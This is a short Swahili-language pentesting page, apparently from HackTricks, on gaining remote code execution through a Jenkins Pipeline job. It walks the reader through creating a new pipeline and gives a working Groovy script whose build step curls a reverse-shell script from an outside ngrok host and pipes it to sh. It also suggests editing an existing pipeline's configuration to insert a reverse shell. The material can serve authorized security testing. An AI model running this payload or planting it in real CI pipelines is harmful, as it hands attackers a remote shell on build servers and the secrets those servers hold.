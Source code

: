# Jenkins RCE Kuunda/Kubadilisha Pipeline

{{#include ../../banners/hacktricks-training.md}}

## Kuunda Pipeline Mpya

Katika "Kitu Kipya" (kinachopatikana katika `/view/all/newJob`) chagua **Pipeline:**

![](<../../images/image (235).png>)

Katika **sehemu ya Pipeline** andika **reverse shell**:

![](<../../images/image (285).png>)
```groovy
pipeline {
agent any

stages {
stage('Hello') {
steps {
sh '''
curl https://reverse-shell.sh/0.tcp.ngrok.io:16287 | sh
'''
}
}
}
}
```
Hatimaye bonyeza **Save**, na **Build Now** na pipeline itatekelezwa:

![](<../../images/image (228).png>)

## Kubadilisha Pipeline

Ikiwa unaweza kufikia faili ya usanidi wa pipeline fulani iliyowekwa unaweza tu **kuibadilisha kwa kuongeza shell yako ya kurudi** na kisha kuitekeleza au kusubiri hadi itekelezwe.

{{#include ../../banners/hacktricks-training.md}}
